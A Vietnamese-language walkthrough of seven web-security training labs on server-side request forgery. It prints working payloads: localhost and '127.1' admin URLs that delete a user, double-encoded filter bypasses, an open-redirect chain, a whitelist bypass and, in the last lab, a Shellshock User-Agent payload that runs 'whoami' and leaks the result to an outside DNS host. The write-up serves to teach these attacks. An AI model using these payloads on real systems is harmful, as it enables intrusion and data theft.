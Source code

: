 # Server-side request forgery

## Bài 1: Basic SSRF against the local server
>![](https://i.imgur.com/vCjx8lz.png)
<hr>


Mô tả: Chức năng `stock check` của trang web fetch data từ nguồn bên trong nội bộ, khai thác SSRF để chuyển hướng request khiến server fetch data từ trang `/admin` và trả về. Sau đó xóa user `carlos`

Kiểm tra chức năng ta thấy nó gửi value như sau đến server
```htmlembedded
<select name="stockApi">
    <option value="http://stock.weliketoshop.net:8080/product/stock/check?productId=1&amp;storeId=1">London</option>
    <option value="http://stock.weliketoshop.net:8080/product/stock/check?productId=1&amp;storeId=2">Paris</option>
    <option value="http://stock.weliketoshop.net:8080/product/stock/check?productId=1&amp;storeId=3">Milan</option>
</select>
```

Mỗi option stock check sẽ gửi một đường link đến server, và server sẽ fetch từ đường link đó. Vậy để fetch trang admin ta đổi giá trị của 1 option thành `http://localhost/admin`

>![](https://i.imgur.com/8Foppxe.png)


Để xóa user `carlos` ta đổi đường dẫn thành `http://localhost/admin/delete?username=carlos`
>![](https://i.imgur.com/haMmPqz.png)


<hr>

## Bài 2: Basic SSRF against another back-end system
>![](https://i.imgur.com/SPnzOjZ.png)


Mô tả: Đề không cho trước địa chỉ IP của backend system, chỉ biết nó có dạng `192.168.0.X` và port `8080`. Ta sẽ phải scan ra và khai thác ssrf để xóa user carlos

Sử dụng Burpsuite Intruder để scan từ 1 đến 255 ta được kết quả là địa chỉ: 192.168.0.29
>![](https://i.imgur.com/DzujkrC.png)

<hr>

## Bài 3: SSRF with blacklist-based input filter
>![](https://i.imgur.com/2EGA1l0.png)


Mô tả: Nhà phát triển đã triển khai hai hệ thống phòng thủ chống SSRF yếu mà bạn sẽ cần phải vượt qua. 

Thử truyền đường dẫn như `http://localhost/`, `http://127.0.0.1` thì thấy đã bị server chặn bằng blacklist.
`"External stock check blocked for security reasons"`

Thử các alternative IP của 127.0.0.1 như là `2130706433`, `017700000001`, hoặc `127.1` thì ta thấy `127.1` có thể bypass được.
>![](https://i.imgur.com/pXRtQPm.png)

Tuy nhiên nếu truyền `/admin` vào thì lại bị chặn, thử urlencode (double) nó ta thấy có thể bypass.
`http://127.1/%2561%2564%256d%2569%256e`

Xóa user `carlos` và solve bài lab:
>![](https://i.imgur.com/ptQKLU7.png)

<hr>


## Bài 4: SSRF with filter bypass via open redirection vulnerability
>![](https://i.imgur.com/9KlB7LY.png)


Mô tả: Chức năng `stock checker` đã hạn chế chỉ cho phép truy cập vào các ứng dụng nội bộ, mục tiêu của ta là khiến nó fetch data từ trang `http://192.168.0.12:8080/admin` (không phải nội bộ) và sau đó xóa user `carlos`

Vì `stock checker` không truy cập vào các đường dẫn bên ngoài mạng nội bộ, tức là nó sẽ dùng whitelist để lọc các đường dẫn mà nó sẽ fetch, vì thế ta cần lợi dụng các chức năng cho phép redirect tới 1 đường dẫn mà ta có thể kiểm soát.

Lướt qua các request, ta thấy chức năng `Next product` nhận tham số `path` để redirect tới sản phẩm khác, tham số này ta có thể kiểm soát.
>![](https://i.imgur.com/1OyYdJR.png)


Thay `path` bằng đường dẫn tới trang mà đề cho để truy cập admin, sau đó, ta đưa request này cho chức năng `stock checker`. Nó kiểm tra và thấy đường dẫn `/product/nextProduct` thuộc ứng dụng nội bộ, nên sẽ fetch data từ đường dẫn này, tham số `path` mà ta inject sẽ điều hướng request tới một trang bên ngoài.

`stockApi=/product/nextProduct?currentProductId=2%26path=http://192.168.0.12:8080/admin/delete?username=carlos`

>![](https://i.imgur.com/QJdU1fd.png)


<hr>

## Bài 5: Blind SSRF with out-of-band detection
>![](https://i.imgur.com/zWXAMpS.png)


Mô tả: Trang web sử dụng phần mềm phân tích để fetch URL được khai báo trong trường `Referer` của HTTP Header khi trang sản phẩm load. Mục tiêu của ta là khai thác để server gửi request tới Burp Collaborator server của mình.

Khi mở 1 sản phẩm bất kì, ta thấy request có chứa trường `Referer`, thay đổi giá trị của nó thành đường dẫn tới Burp Collaborator server của ta, ta thấy đường dẫn đã được fetch, và solve bài lab.
>![](https://i.imgur.com/dwD9n2H.png)

<hr>


## Bài 6: SSRF with whitelist-based input filter
>![](https://i.imgur.com/pxO7UIT.png)


Mô tả: `The developer has deployed an anti-SSRF defense you will need to bypass.`

Thử inject đường dẫn `http://localhost/admin` ta thấy nó trả về thông báo như sau
<kbd>"External stock check host must be stock.weliketoshop.net"</kbd>
Nghĩa là mọi đường dẫn của ta phải thuộc host <kbd>stock.weliketoshop.net</kbd>

Để kiểm tra xem server kiểm tra như thế nào, ta thử các trường hợp như là:
- Server kiểm tra xem host có CHỨA `stock.weliketoshop.net` ta dùng payload như là `http://localhost#stock.weliketoshop.net:8080` hay `http://stock.weliketoshop.net.our-domain` và quan sát thấy vẫn bị block
- Server thật sự kiểm tra phần host trong request: ta thử `http://xxx@stock.weliketoshop.net`
>![](https://i.imgur.com/Q1Qiewe.png)

Như hình trên ta thấy có thể chèn thêm dữ liệu vào phần `username` trong đường dẫn, và em đã chèn localhost. Để gạt bỏ phần phía sau đi ta có thể dùng fragment <kbd>#</kbd>. Tuy nhiên điều đó làm thay đổi host và bị server block.

Thử encode và double encode ta thấy có thể bypass được việc kiểm tra host của server và đến được trang có admin panel khi server thực hiện fetch (phần sau fragment sẽ bị bỏ đi)
>![](https://i.imgur.com/cKnUKau.png)


>![](https://i.imgur.com/BXgAVj3.png)

<hr>

## Bài 7: Blind SSRF with Shellshock exploitation
>![](https://i.imgur.com/mQTtycP.png)

Mô tả: Trang web sử dụng công cụ phân tích để fetch đường dẫn trong trường `Referer`. Mục tiêu là sử dụng chức năng này để thực hiện `blind SSRF` gửi request tới máy 192.168.0.X:8080 trong mạng nội bộ, đồng thời sử dụng `Shellshock payload` tại 1 điểm vulnerable trong http request để khai thác lấy tên của OS user trên máy đó.

Đầu tiên thử dùng Burp Intruder brute force địa chỉ IP của máy nạn nhân, nhưng tất cả kết quả trả về đều như nhau.

Chuyển sang tìm kiếm điểm khai thác ssrf lấy os user name, em sử dụng `Collaborator everywhere` hỗ trợ. Sau khi sử dụng lại trang web, kiểm tra scan tự động thì thấy có cảnh báo hiện lên như sau:
>![](https://i.imgur.com/OxYF3PB.png)


Đoán rằng trường `user-agent` đang bị lỗ hổng ssrf, em thử dùng payload như sau
Payload shellshock
`() { :; }; /usr/bin/nslookup $(whoami).v0w7km5k6gzs3hgzx2kjx59yrpxfl4.oastify.com`

Bash shell coi bộ dấu () { :; }; như là một khai báo hàm, và shell sẽ "đánh giá" chức năng của hàm đó. Tuy nhiên nó cũng đánh giá các chuỗi còn lại, khiến shell vô tình thực thi đoạn code độc hại phía sau. (lưu ý rằng nếu ko có định nghĩa hàm thì shell sẽ không "đánh giá" và -> không thực thi lệnh độc hại chèn vào như trên.)

Vậy payload sẽ khiến shell xử lý chuỗi user-agent theo kiểu khác, nó sẽ thực hiện câu lệnh phía sau rồi lấy kết quả trả về chứ không lấy trực tiếp chuỗi. Và điều đó sẽ khiến máy nạn nhân gửi 1 request nslookup chứa kết quả lệnh `whoami`

Brute-force địa chỉ IP với request có user-agent chứa giá trị trên, ta nhận được request DNS gửi tới máy chủ ta kèm theo username

>![](https://i.imgur.com/uwYGdlL.png)


Submit là ta solve
>![](https://i.imgur.com/UgmGKP1.png)


<hr>

